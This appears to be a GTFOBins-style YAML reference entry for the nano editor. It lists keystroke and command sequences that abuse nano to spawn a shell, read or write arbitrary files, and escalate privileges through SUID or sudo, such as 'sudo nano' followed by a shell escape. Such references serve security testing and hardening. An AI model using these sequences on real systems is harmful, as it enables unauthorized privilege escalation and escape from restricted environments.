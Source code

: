 ```yaml
---
functions:
  shell:
    - code: |
        nano
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        nano -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  limited-suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./nano -s "/bin/sh -p"
        /bin/sh -p
        ^T
  sudo:
    - code: |
        sudo nano
        ^R^X
        reset; sh 1>&0 2>&0
---
```

